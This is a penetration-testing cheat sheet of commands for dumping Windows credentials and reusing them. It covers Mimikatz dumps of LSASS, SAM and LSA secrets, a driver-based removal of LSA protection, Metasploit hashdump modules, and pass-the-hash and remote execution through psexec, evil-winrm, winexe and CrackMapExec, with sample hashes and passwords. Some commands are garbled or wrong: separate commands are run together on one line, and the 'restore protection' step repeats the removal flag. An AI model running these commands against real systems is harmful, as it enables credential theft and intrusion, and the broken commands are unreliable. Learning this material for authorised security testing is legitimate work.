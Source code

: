 # Windows Credential Access

## Credential Dumping

Credential dumping is a crucial phase in post-exploitation activities during a penetration test or security assessment. This cheat sheet provides a collection of techniques and commands for extracting credentials from compromised systems.

### Extract Clear-text Passwords & Hashes from Memory with Mimikatz

***

Execute Mimikatz

```jsx
mimikatz.exe
```

Extract Passwords:

```bash
privilege::debug sekurlsa::logonpasswords
```

Via Meterpreter Mimikatz Module

```bash
load kiwi getsystem Creds_msv
```

### Extract Clear-text Passwords & Hashes via Metasploit

***

Once with a Meterpreter Shell

Migrate to a stable process

```bash
migrate PROCESS
```

Escalate Privileges if possible

```bash
getsystem
```

Dump Hashes

```bash
post/windows/gather/hashdump 
post/windows/gather/smart_hashdump
```

### Dump RDP Credentials

***

Execute Mimikatz

```bash
mimikatz.exe
```

Extract RDP Credentials

```bash
privilege::debug ts::mstsc
```

### Dump SAM Database

***

Execute Mimikatz

```bash
mimikatz.exe
```

Extract SAM Database

```bash
privilege::debug lsadump::sam
```

### Dump LSA Secrets

***

Execute Mimikatz

```bash
mimikatz.exe
```

Dump LSA Secrets

```bash
privilege::debug lsadump::secrets
```

### LSA Protection Bypass

***

Check if LSA runs as a protected process by looking for the variable "RunAsPPL":

```bash
reg query HKLM\\\\SYSTEM\\\\CurrentControlSet\\\\Control\\\\Lsa
```

Upload the `mimidriver.sys` from the official Mimikatz repository to the same folder as your `mimikatz.exe`.

Import the `mimidriver.sys` to the system:

```bash
mimikatz # !+
```

Remove the protection flags from `lsass.exe` process:

```bash
mimikatz # !processprotect /process:lsass.exe /remove
```

Run the logonpasswords function to dump `lsass`:

```bash
mimikatz # privilege::debug mimikatz # token::elevate mimikatz # sekurlsa::logonpasswords
```

Re-add the protection flags to the `lsass.exe` process:

```bash
mimikatz # !processprotect /process:lsass.exe /remove
```

Unload the service created:

```bash
mimikatz # !-
```

### Using Credentials with RDP

***

**From Kali**

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:Administrator /p:'pASSWORD'
```

**From Windows**

```bash
rdesktop -u username -p password -g 85% -r disk:share=/root/ xfreerdp /u: /p:lab /v: proxychains 
xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard
```

### Using Pass the Hash with Mimikatz

***

Execute Mimikatz

```bash
mimikatz.exe
```

Pass the hash

```bash
privilege::debug sekurlsa::pth /user:user_name /domain:domain /ntlm:ntlm /run:powershell
```

### Using Pass the Hash with CrackMapExec

***

```bash
crackmapexec.exe domain -u user_name -H ntlm -x command
```

### Using Credentials with Runas

***

**From Windows**

```bash
PS C:\\\\> runas /netonly /user:DOMAIN\\\\username "cmd.exe" 
PS C:\\\\> runas /noprofil /netonly /user:DOMAIN\\\\username cmd.exe
```

### Using Credentials with Metasploit SMB

***

```bash
use auxiliary/scanner/smb/smb_login 
set SMBDomain DOMAIN 
set SMBUser username 
set SMBPass password 
services -p 445 -R run creds
```

### Using Credentials with Metasploit Psexec

***

The password can be replaced by a hash to execute a pass-the-hash attack.

```bash
use exploit/windows/smb/psexec 
set RHOST 10.2.0.3 
set SMBUser username 
set SMBPass password 
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c 
set PAYLOAD windows/meterpreter/bind_tcp run shell
```

### Using Credentials with Evil-winrm

***

**From Kali using Pass the Hash attack**

```bash
evil-winrm -i 10.10.200.193 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

**From Kali using credentials**

```bash
evil-winrm -i 10.10.200.193 -u Administrator -p 'MySuperSecr3tPass123!'
```

### Using Credentials with WINEXE

***

**From Kali Linux**

```bash
winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe
```

### Using Credentials with [psexec.py](http://psexec.py)

***

**From Kali Linux**

```bash
python psexec.py DOMAIN/username:password@10.10.10.10
python smbexec.py DOMAIN/username:password@10.10.10.10
```

### Using Credentials with PsExec

***

**From Windows**

```bash
PS C:\\\\> PsExec.exe \\\\\\\\IP -u DOMAIN\\\\username -p password ipconfig PS C:\\\\> PsExec.exe \\\\\\\\IP -u DOMAIN\\\\username -p password cmd.exe
```
